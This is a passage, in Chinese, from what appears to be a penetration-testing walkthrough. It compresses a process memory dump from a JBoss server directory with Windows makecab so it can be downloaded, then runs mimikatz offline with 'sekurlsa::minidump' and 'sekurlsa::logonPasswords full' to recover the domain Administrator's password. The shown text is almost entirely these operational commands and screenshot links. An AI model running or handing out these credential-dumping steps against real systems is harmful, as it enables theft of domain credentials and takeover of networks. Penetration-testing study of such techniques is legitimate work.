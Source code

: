 利用 windows 自带的压缩文件下载回本地

```plain
makecab c:\jboss\bin\1.dmp  1.zip
```

[![](assets/1698897116-3285a7fcd04c710fffc7ab6cf31c402e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114511-23979f48-a31d-1.png)

看到压缩后的大小还是小很多的，下载回来的速度也会更快

[![](assets/1698897116-5dfac4ee6a79deb830f433b012fcbdf0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114532-3081db88-a31d-1.png)

mimikatz 离线读取得到域管 Administrator 的密码

```plain
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

[![](assets/1698897116-8ed40fb45cd05d2358a34a2712c24f88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422114559-40a9b742-a31d-1.png)
